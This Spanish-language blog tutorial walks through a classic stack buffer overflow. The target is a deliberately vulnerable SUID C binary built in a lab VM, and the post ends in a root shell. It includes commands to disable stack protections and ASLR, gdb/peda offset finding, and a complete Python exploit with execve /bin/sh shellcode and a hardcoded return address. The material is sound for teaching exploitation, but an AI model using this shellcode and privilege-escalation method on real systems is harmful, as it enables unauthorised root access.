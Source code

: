 ```yaml
---
layout: single
title: Stack Buffer Overflow en Linux
excerpt: "En este artículo vemos cómo explotar un stack buffer overflow en un sistema Linux. Nos aprovecharemos de un desbordamiento de memoria en un binario en el que a nivel de código no se ha tenido en cuenta el controlar la cantidad de bytes que se le pueden enviar. Además, al tener el binario permisos SUID nos permitirá realizar una escalada de privilegios y obtener una shell de root."
date: 2021-02-20
classes: wide
header:
  teaser: /assets/images/Stack-Buffer-Overflow-Linux/buffer-overflow.jpg
  teaser_home_page: true
categories:
  - Buffer-Overflow
tags:
  - Buffer Overflow
  - Linux
  - Pentesting
---
```


![](/assets/images/Stack-Buffer-Overflow-Linux/buffer-overflow.jpg)

En este artículo vemos cómo explotar un stack buffer overflow en un sistema Linux. Nos aprovecharemos de un desbordamiento de memoria en un binario en el que a nivel de código no se ha tenido en cuenta el controlar la cantidad de bytes que se le pueden enviar. Además, al tener el binario permisos SUID nos permitirá realizar una escalada de privilegios y obtener una shell de root.

De nuevo agradecimientos a s4vitar por sus tutoriales.

Utilizaremos una máquina virtual con Ubuntu Server 14.04 x86, gdb como debuguer y peda para añadir funcionalidades extra a gdb.

Nos conectamos por ssh a la máquina ubuntu y empezamos.

![](/assets/images/Stack-Buffer-Overflow-Linux/ssh.png)

Primero instalaremos gdb, git y gcc desde la línea de comandos `apt install gdb git gcc`

Después necesitaremos instalar peda como complemento de gdb, para ello vamos a la página del proyecto en github [https://github.com/longld/peda](https://github.com/longld/peda) y ejecutamos estos dos comandos:

`git clone https://github.com/longld/peda.git ~/peda`<br>
`echo "source ~/peda/peda.py" >> ~/.gdbinit`

A continuación crearemos un sencillo código en lenguaje C para después compilarlo y obtener el binario sobre el que trabajaremos.


![](/assets/images/Stack-Buffer-Overflow-Linux/codigo.png)

En este código simplemente se llama a una función que se llama vulnerable, le pasamos lo que pongamos como primer argumento, que se guarda en una variable llamada buff. Después definimos otra variable buffer a la que le asignamos un tamaño de buffer de 64 bytes, y hacemos una copia de buff a buffer, con lo cual, si el tamaño de bytes que enviamos supera esos 64 se producirá el desbordamiento que nos permitirá explotar la vulnerabilidad.

Lo compilamos de la siguiente forma:

`gcc -z execstack -g -fno-stack-protector -mpreferred-stack-boundary=2 ejercicio.c -o vuln`

Nos creará un binario llamado vuln, al que le asignaremos de usuario propietario root y permisos SUID, lo que hace que se pueda ejecutar temporalmente con los permisos del usuario propietario, en este caso root, lo que nos permitirá cuando explotemos el buffer overflow que nos devuelva una shell de root. Lo ejecutaremos como usuario ximo y nos devolverá una shell de root.

Lo siguiente será ponernos como usuario root y ejecutar los siguientes comandos: `chown root:root vuln` y `chmod u+s vuln`. El primero pondrá como propietario y grupo asignado al usuario root y el segundo le aplicará permiso SUID al binario.

## Empieza la explotación

Si ejecutamos el binario y le pasamos como parámetro cualquier cadena menor a 64 bytes vemos que no pasa nada. Ejemplo: `./vuln holaquetal`
Pero si le pasamos a través de python por ejemplo 100 "A" vemos que corrompe el programa y nos devuelve una violación de segmento.

![](/assets/images/Stack-Buffer-Overflow-Linux/error.png)

Al pasarle más bytes de los que acepta la variable buffer hemos sobreescrito registros de la memoria que ahora apuntan a direcciones de memoria que no tienen sentido y por eso corrompe el programa.

En este punto si ejecutamos gdb vuln entraremos en el debuguer para ver que está ocurriendo con la ejecución del programa. Una vez dentro de gdb si ejecutamos checksec vuln vemos que tiene todas las protecciones deshabilitadas, esto es así porque lo hemos compilado con unos parámetros para que no las tenga y poder entender como funciona el buffer overflow.

![](/assets/images/Stack-Buffer-Overflow-Linux/checksec.png)

En el siguiente paso tendremos que deshabilitar la aleatorización de las direcciones de memoria. Explicado de forma sencilla sería que de forma predeterminada el kernel de linux asigna direcciones de memoria aleatorias que van cambiando con cada ejecución. En este ejemplo para hacer la explotación más fácil y entender como funciona lo vamos a deshabilitar.

Si ejecutamos `ldd vuln` varias veces veremos que la librería libc cada vez apunta a una dirección de memoria diferente. Para deshabilitarlo nos ponemos como usuario root y ejecutamos `echo 0 > /proc/sys/kernel/randomize_va_space`. Por defecto tiene un valor de 2, y ahora nosotros lo hemos puesto a 0.

![](/assets/images/Stack-Buffer-Overflow-Linux/randomize.png)


Bien, ahora ejecutamos el debuguer junto al binario `gdb vuln`. Si ponemos `r holaquetal` estaremos haciendo lo mismo de antes pero desde dentro del debuguer. Probamos con `r $(python -c 'print "A"*100')` y nos fijamos en lo que nos muestra gdb. Podemos ver que el registro EIP que siempre apunta a la próxima dirección de memoria a ejecutar ahora vale 0x41414141, que son nuestras "A" en hexadecimal. Por eso corrompe el programa, porque 0x41414141 no es una dirección de memoria válida.

![](/assets/images/Stack-Buffer-Overflow-Linux/eip.png)

Ahora se trata, como en el artículo anterior en el que explotábamos el stack buffer overflow en una máquina windows, de tomar el control del registro EIP, para que el flujo del programa se desplace hasta la dirección que nosotros queramos, que será donde habremos sobreescrito lo que haya con nuestro shellcode o instrucciones maliciosas, que nos deovlverán una shell , en este caso de root por ser el binario SUID.

Creamos un patrón de 100 carácteres aleatorios, ejecutamos el binario con ese patrón y vemos el valor de EIP. Esto lo hacemos desde gdb con `pattern arg 100` y luego `r` para ejecutarlo.

Vemos que ahora EIP vale 0x41413341. Pues ahora con `patern search` nos muestra el offset del EIP, que es la cantidad exacta de bytes que tenemos que pasarle al binario justo antes de que se sobreescriba el EIP. De esta forma tendremos el control del registro EIP y podremos sobreescribirlo con lo que queramos. En este caso el offset es 68.

![](/assets/images/Stack-Buffer-Overflow-Linux/registers.png)

Seguidamente, para comprobar que tenemos el control del registro EIP le pasaremos al binario 68 "A" + 4 "B", y si vemos que EIP apunta a la dirección 0x42424242 que son nuestras "B" en hexadecimal, tendremos el control pudiendo hacer que EIP apunte donde nosotros queramos. Lo probamos y vemos que efectívamente EIP apunta a 0x42424242.

![](/assets/images/Stack-Buffer-Overflow-Linux/eip42.png)

Bien pues ahora le pasaremos 68 "A" + 4 "B" + 200 "C" y vemos como las 200 "C" se colocan en la pila o stack, sobreescribiendo un montón de direcciones de memoria. Esto lo podemos ver ejecutando `x/100wx $esp`. Todas las direcciones de memoria en las que pone 0x43434343 son nuestras "C".

![](/assets/images/Stack-Buffer-Overflow-Linux/esp.png)

A continuación lo que hacemos es pasarle al binario NOPs (\x90), que son instrucciones que no ejecutan nada, simplemente hacen que el flujo de ejecución se desplace a través de ellos sin hacer nada. Lo hacemos de esta forma: `r $(python -c 'print "A"*68 + "B"*4 + "\x90"*200')`. Si volvemos a ejecutar `x/100wx $esp` vemos nuestros NOPs.

![](/assets/images/Stack-Buffer-Overflow-Linux/nops.png)

Ahora podemos hacer que el registro EIP apunte a una dirección intermedia dentro de los NOPs para que el flujo de ejecución se desplace hasta donde terminan estos NOPs, que será donde sobreescribiremos lo que haya con nuestro shellcode que nos ejecutará un /bin/sh y nos devolverá una shell.

Hacemos `r $(python -c 'print "A"*68 + "\x34\xf6\xff\xbf" + "\x90"*200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')` y vemos que efectívamente nos devuelve una shell. Si ejecutamos `whoami` nos devuelve ximo, pero esto es porque estamos dentro del gdb, ahora lo haremos desde fuera del gdb con python y veremos como nos devuelve una shell de root.

![](/assets/images/Stack-Buffer-Overflow-Linux/shell.png)

Nos creamos un fichero exploit.py con el siguiente contenido:

```python
#!/usr/bin/python

from struct import pack

if __name__ == '__main__':
        offset = 68
        junk = "A"*offset
        EIP = pack("<I", 0xbffff634) # \x34\xf6\xff\xbf
        nops = "\x90"*200
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

        payload = junk + EIP + nops + shellcode

        print payload

```

Y ahora ejecutamos el binario pasándole el output del resultado de ejecutar python exploit.py y vemos que nos devuelve una shell de root. Hemos conseguido redirigir el flujo de ejecución del programa para que se desplace hasta donde hemos sobreescrito la memoria con nuestro shellcode, para que lo ejecute y nos devuelva una shell, en este caso de root por tener el binaro permiso SUID.

![](/assets/images/Stack-Buffer-Overflow-Linux/root.png)


